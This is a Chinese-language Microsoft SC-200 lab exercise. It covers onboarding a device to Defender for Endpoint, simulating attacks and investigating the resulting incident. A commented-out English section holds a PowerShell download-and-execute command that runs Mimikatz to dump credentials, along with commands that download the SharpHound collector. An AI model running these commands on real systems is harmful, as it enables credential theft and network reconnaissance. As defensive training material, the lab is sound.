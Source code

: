 ```yaml
---
lab:
  title: 练习 2 - 使用 Microsoft Defender for Endpoint 缓解攻击
  module: Learning Path 2 - Mitigate threats using Microsoft Defender for Endpoint
---
```


# 学习路径 2 - 实验室 1 - 练习 2 - 使用 Microsoft Defender for Endpoint 缓解攻击

## 实验室方案

![实验室概述。](../Media/SC-200-Lab_Diagrams_Mod2_L1_Ex2_10_19.png)

你是一家公司的安全操作分析师，你的公司正在实施 Microsoft Defender for Endpoint。 你的主管计划加入一些设备，以深入了解安全运营 (SecOps) 团队响应程序所需的更改。

为了探索 Defender for Endpoint 的攻击缓解功能，你将运行两次模拟攻击。

>**注意：** 我们提供 **[交互式实验室模拟](https://mslabs.cloudguides.com/guides/SC-200%20Lab%20Simulation%20-%20Mitigate%20attacks%20with%20Microsoft%20Defender%20for%20Endpoint)** ，让你能以自己的节奏点击浏览实验室。 你可能会发现交互式模拟与托管实验室之间存在细微差异，但演示的核心概念和思想是相同的。


### 任务 1：验证设备加入

在此任务中，你将确认设备已成功加入并创建测试警报。

1. 如果尚未访问 Microsoft Edge 浏览器中的 Microsoft Defender XDR 门户，请转到 (https://security.microsoft.com) 并以租户的管理员身份登录。

1. 在左侧菜单的“资产”区域下，选择“设备” 。 请等到 WIN1 出现在“设备”页面中，然后再继续操作。 否则，可能需要重复此任务以查看稍后将生成的警报。

    >**注意：** 如果你已完成载入过程，但在一小时后未在“设备”列表中看到设备，这可能指示存在载入或连接问题。

1. 从左侧菜单栏中选择“设置”，然后从“设置”页面中选择“终结点” 。

1. 在“设备管理”部分选择“加入”，并确保选择“Windows 10 和 11”作为操作系统。 “第一个设备已加入”消息现在显示“已完成” 。

1. 向下滚动，在“2. 运行检测测试”部分，选择“复制”按钮以复制检测测试脚本。  

1. 在 WIN1 虚拟机的 Windows 搜索栏中，键入“CMD”，然后在命令提示符应用的右窗格上，选择“以管理员身份运行” 。 

1. 显示“用户帐户控制”窗口时，选择“是”以允许应用运行。 

1. 粘贴脚本的方法是右键单击“管理员:**命令提示符”窗口，并按 Enter 键运行** 。

    >**注意：** 窗口在运行脚本后自动关闭。

### 任务 2：模拟攻击

>**注意：** 门户的“评估实验室”和“教程和模拟”部分不再可用。 以下步骤仅供参考。 有关模拟攻击的演示，请参阅[交互式实验室模拟](https://mslabs.cloudguides.com/guides/SC-200%20Lab%20Simulation%20-%20Mitigate%20attacks%20with%20Microsoft%20Defender%20for%20Endpoint)****。 我们正在努力寻找模拟攻击的替代项。

<!--- In this task, you will run two *simulated* attacks using *PowerShell* on *WIN1* to explore the capabilities of Microsoft Defender for Endpoint.

`Attack 1: Mimikatz - Credential Dumping`

1. On the *WIN1* machine, type **Command** in the search bar and select **Run as administrator**.

1. Copy and paste the following command in the **Administrator: Command Prompt** window and press **Enter** to run it.

    ```CommandPrompt
    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
    ```

1. You should see a message that says *Access is denied*, and a pop-up message from `Microsoft Defender Antivirus, Windows Security Virus and threats protection` displaying *Threats found*.

1. Exit the **Administrator: Command Prompt** window by typing **exit** and pressing **Enter**.

`Attack 2: Bloodhound - Collection`

1. On the *WIN1* machine, type **PowerShell** in the search bar, select **Windows PowerShell** and select **Run as administrator**.

1. Copy and paste the following commands in the **Administrator: Windows PowerShell** window and press **Enter** to run it.

    ```PowerShell
    New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
    Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

    >**Note:** It is recommended to copy, paste and run the commands one at a time. You can open *Notepad* and copy the commands into a temporary file to accomplish this. The first command creates a folder named *ExternalPayloads* in the same folder where the *Atomic Red Team* folder is located. The second command downloads the *SharpHound.ps1* file from the *BloodHound* GitHub repository and saves it in the *ExternalPayloads* folder.

1. You should see a  pop-up message from `Windows Security Virus and threats protection` displaying *Threats found*.

1. Copy and paste the following command in the **Administrator: Windows PowerShell** window and press **Enter** to run it.

    ```PowerShell
    Test-Path "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

1. If the output is *True*, the Malware payload file has not been removed by Microsoft Defender Antivirus. If the output is *False*, the Malware payload file has been removed by Microsoft Defender Antivirus. Use the up-arrow key to repeat the command until the output is *False*. --->

1. 在左侧菜单的“终结点”下，选择“评估和教程”，然后选择左侧的“教程和模拟”  。

1. 选择“教程”选项卡。

1. 在“自动调查(后门)”下，你将看到一条描述方案的消息。 在此段落下，单击“阅读演练”。 此时将打开一个新的浏览器选项卡，其中包含执行模拟的说明。

1. 在新浏览器选项卡中，找到名为“运行模拟”（第 5 页，从步骤 2 开始）的部分，并按步骤运行攻击。 提示：模拟文件 RS4_WinATP-Intro-Invoice.docm 可以在门户中找到，就在上一步中选择的“阅读演练”下方，通过选择“获取模拟文件”按钮获取 。

<!--- 1. Repeat the last 3 steps to run another tutorial, *Automated investigation (fileless attack)*. This is no longer working due to win1 AV --->

### 任务 3：调查攻击

1. 在 Microsoft Defender XDR 门户中，从左侧菜单栏中选择“事件和警报”，然后选择“事件”********。

1. 右窗格中有一个名为“在一个终结点上检测到多个威胁系列”的新事件。 选择事件名称以加载其详细信息。

    >**注意：** 你应在“警报”窗格中看到“Bloodhound”和“Mimikatz*”警报。****** 在“资产/设备”中，win1 计算机现在将具有“高”风险级别。************

1. 选中“管理事件”按钮，此时将显示一个新的窗口边栏选项卡。 

1. 在“事件标记”下，键入“模拟”，然后选择“模拟(新建)”以创建新标记。******** 

1. 选择切换“分配给”，将用户帐户（我）添加为事件所有者。 

1. 在“分类”下，展开下拉菜单。 

1. 在“参考性预期活动”下，选择“安全测试” 。 

1. 根据需要添加任何注释，然后选择“保存”以更新事件并结束。

1. 查看“攻击情景、警报、资产、调查、证据和响应”以及“摘要”选项卡的内容。 设备和用户位于“资产”选项卡下。“攻击情景”选项卡显示“事件图”。 提示：某些选项卡可能由于显示器的大小而被隐藏。 选择省略号选项卡 (...) 显示它们。

    >**警告：** 此处的模拟攻击非常适合实践式学习。 在使用 Azure 租户提供的课程时，请仅执行为本实验室提供的说明中的攻击。  在此租户完成此培训课程后，可以执行其他模拟攻击。**

## 你已完成本实验室。
